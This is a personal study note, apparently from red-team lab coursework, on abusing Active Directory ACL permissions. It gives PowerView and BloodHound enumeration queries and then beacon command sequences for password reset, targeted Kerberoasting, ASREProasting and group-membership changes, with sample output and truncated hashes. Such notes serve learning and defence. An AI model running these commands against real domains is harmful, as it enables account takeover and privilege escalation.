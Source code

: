 ```yaml
---
creation date: September 25th 2022
last modified date: September 25th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Discretionary Access Control Lists]]  
___

## Description:  

### Enumeration

^80cd76

There may be instances across the domain where some principals have ACLs on more privileged accounts, that allow them to be abused for account-takeover. A simple example of this could be a "support" group that can reset the passwords of "Domain Admins".

We can start off by targeting a single principal. This query will return any principal that has **GenericAll**, **WriteProperty** or **WriteDacl** on jadams.

```
beacon> powershell Get-DomainObjectAcl -Identity jadams | ? { $_.ActiveDirectoryRights -match "GenericAll|WriteProperty|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select SecurityIdentifier, ActiveDirectoryRights | fl

SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1125
ActiveDirectoryRights : GenericAll

SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1125
ActiveDirectoryRights : GenericAll

beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1125
DEV\1st Line Support

```


We could also cast a wider net and target entire OUs.

```
beacon> powershell Get-DomainObjectAcl -SearchBase "CN=Users,DC=dev,DC=cyberbotic,DC=io" | ? { $_.ActiveDirectoryRights -match "GenericAll|WriteProperty|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl

ObjectDN              : CN=Joyce Adam,CN=Users,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : GenericAll
SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1125

ObjectDN              : CN=1st Line Support,CN=Users,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : GenericAll
SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1125

ObjectDN              : CN=Developers,CN=Users,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : GenericAll
SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1125

ObjectDN              : CN=Oracle Admins,CN=Users,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : GenericAll
SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1125
```

In BloodHound
```
MATCH (g1:Group), (g2:Group), p=((g1)-[:GenericAll]->(g2)) RETURN p
```

Narrow down results
```
MATCH (g1:Group {name:"1ST LINE SUPPORT@DEV.CYBERBOTIC.IO"}), (g2:Group), p=((g1)-[:GenericAll]->(g2)) RETURN p
```


### Abuse

^7b741a

We can abuse this by reseting the users password, targeted Kerberoasting, targeted ASREPRoasting, or by modifying Domain Group Membership.


Reset a user's password (pretty bad OPSEC).
```
beacon> getuid
[*] You are DEV\bfarmer

beacon> make_token DEV\jking Purpl3Drag0n
[+] Impersonated DEV\bfarmer

beacon> run net user jadams N3wPassw0rd! /domain

The request will be processed at a domain controller for domain dev.cyberbotic.io.

The command completed successfully.
```

Instead of changing the password we can set an SPN on the account, kerberoast it and attempt to crack offline.

```
beacon> powershell Set-DomainObject -Identity jadams -Set @{serviceprincipalname="fake/NOTHING"}
beacon> powershell Get-DomainUser -Identity jadams -Properties ServicePrincipalName

serviceprincipalname
--------------------
fake/NOTHING

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe kerberoast /user:jadams /nowrap

[*] Action: Kerberoasting

[*] Target User            : jadams
[*] Searching the current domain for Kerberoastable users

[*] Total kerberoastable users : 1

[*] SamAccountName         : jadams
[*] DistinguishedName      : CN=Joyce Adam,CN=Users,DC=dev,DC=cyberbotic,DC=io
[*] ServicePrincipalName   : fake/NOTHING
[*] PwdLastSet             : 3/10/2021 3:28:20 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT

[*] Hash                   : $krb5tgs$23$*jadams$dev.cyberbotic.io$fake/NOTHING*$7D84D4D25DD82A170B308A21FED2E1F5$B22A1E [...snip...] 56B2E7

beacon> powershell Set-DomainObject -Identity jadams -Clear ServicePrincipalName
```
Or you could modify the User Account Control value on the account to disable preauthentication and then ASREProast it.
```
beacon> powershell Get-DomainUser -Identity jadams | ConvertFrom-UACValue

Name                           Value                                                     
----                           -----                                                     NORMAL_ACCOUNT                 512
DONT_EXPIRE_PASSWORD           65536

beacon> powershell Set-DomainObject -Identity jadams -XOR @{UserAccountControl=4194304}
beacon> powershell Get-DomainUser -Identity jadams | ConvertFrom-UACValue

Name                           Value
----                           -----
NORMAL_ACCOUNT                 512                              
DONT_EXPIRE_PASSWORD           65536                              
DONT_REQ_PREAUTH               4194304

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asreproast /user:jadams /nowrap

[*] Action: AS-REP roasting

[*] Target User            : jadams
[*] Target Domain          : dev.cyberbotic.io

[*] Searching path 'LDAP://dc-2.dev.cyberbotic.io/DC=dev,DC=cyberbotic,DC=io' for AS-REP roastable users

[*] SamAccountName         : jadams
[*] DistinguishedName      : CN=Joyce Adams,CN=Users,DC=dev,DC=cyberbotic,DC=io
[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Building AS-REQ (w/o preauth) for: 'dev.cyberbotic.io\jadams'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$jadams@dev.cyberbotic.io:5E0549 [...snip...] 131FDC

beacon> powershell Set-DomainObject -Identity jadams -XOR @{UserAccountControl=4194304}
beacon> powershell Get-DomainUser -Identity jadams | ConvertFrom-UACValue

Name                           Value
----                           -----
NORMAL_ACCOUNT                 512
DONT_EXPIRE_PASSWORD           65536
```

If we have the ACL on a group, we can add and remove members.
```
beacon> run net group "Oracle Admins" bfarmer /add /domain

The request will be processed at a domain controller for domain dev.cyberbotic.io.

The command completed successfully.

beacon> run net user bfarmer /domain

The request will be processed at a domain controller for domain dev.cyberbotic.io.

User name                    bfarmer
Full Name                    Bob Farmer

[...snip...]

Global Group memberships     *Domain Users         *Roaming Users        
                             *Developers           *Oracle Admins
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 25th 2022 (07:16 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
